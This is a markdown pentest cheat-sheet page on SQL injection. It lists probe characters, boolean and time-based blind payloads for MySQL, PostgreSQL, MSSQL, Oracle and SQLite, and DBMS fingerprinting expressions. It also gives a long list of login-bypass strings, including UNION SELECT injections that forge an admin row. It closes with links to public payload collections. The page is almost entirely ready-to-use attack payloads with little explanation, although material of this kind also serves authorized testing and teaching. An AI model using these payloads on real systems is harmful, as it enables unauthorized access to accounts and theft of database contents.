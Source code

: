 ```yaml
---
icon: database
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# SQL Injection

## Entry point detection <a href="#entry-point-detection" id="entry-point-detection"></a>

### Error Messages

```plsql
'
%27
"
%22
#
%23
;
%3B
)
```

### Logical Operations

```plsql
1 or 1=1  -- true
1 and 1=2 -- false
```

### Time/Blind

<pre class="language-plsql"><code class="lang-plsql">-- MySQL --
sleep(10)

-- PostgreSQL --
pg_sleep(10)

-- MSSQL --
WAITFOR DELAY '0:0:10'

<strong>-- Oracle --
</strong>[RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

-- SQLite --
[RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
</code></pre>

### DBMS Identification

```javascript
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```

### Authentication Bypass

```plsql
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
"&"
"^"
"*"
'--'
"--"
'--' / "--"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin';-- azer 
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

## Cheatsheets

* **MySQL**
  * [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)
  * [**https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet**](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
* **Oracle**
  * [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md)
  * [**https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet**](https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet)
* **PostgreSQL**
  * [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)
  * [**https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet**](https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)
* **MSSQL**
  * [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)
  * [**https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet**](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* **Other DBMSs**
  * [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#cheatsheets](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#cheatsheets)
  * [https://pentestmonkey.net/category/cheat-sheet/sql-injection](https://pentestmonkey.net/category/cheat-sheet/sql-injection)

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)\
[https://book.hacktricks.xyz/pentesting-web/sql-injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)\
[https://pentestmonkey.net/category/cheat-sheet/sql-injection](https://pentestmonkey.net/category/cheat-sheet/sql-injection)
